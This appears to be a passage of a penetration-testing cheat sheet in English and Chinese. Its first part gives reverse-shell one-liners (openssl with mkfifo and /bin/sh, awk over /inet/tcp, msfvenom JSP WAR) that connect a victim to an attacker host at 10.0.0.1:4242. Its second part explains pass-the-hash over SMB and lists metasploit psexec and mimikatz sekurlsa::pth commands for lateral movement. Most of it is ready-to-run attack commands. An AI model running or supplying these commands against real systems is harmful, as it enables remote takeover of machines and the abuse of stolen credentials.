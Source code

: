 **openssl**

Attacker:
```powershell
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
or
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

**Awk**
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

**War**
```java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```

---

# 横向扩展
## PTH/PTK/PTT

SMB 可以直接基于 TCP 协议或者 NetBIOS over TCP，SMB 的认证可以基于 SMB，也可以基于 kerberos，，这两种认证方式，前者本质上使用了 hash，后者本质上使用了 ticket，导致了 SMB 的 PtH 和 PtT 攻击存在的基础。

目前常用的 hash 传递工具都是通过 445 端口进行攻击的，也是因为 smb 使用了 ntml 认证，所以导致可以 hash 传递。

**PTH**
- **metasploit**
    ```bash
    use exploit/windows/smb/psexec
    set rhosts <ip>
    set smbuser <user>
    set smbpass <password>
    exploit
    ```

- **mimikatz**
    ```
    privilege::debug
    sekurlsa::pth /user:目标机器的用户名 /domain:目标机器的域(工作组则为.) /ntlm:用户名对应的hash "/run:mstsc.exe /restrictedadmin"
    ```

- **pth-winexe**
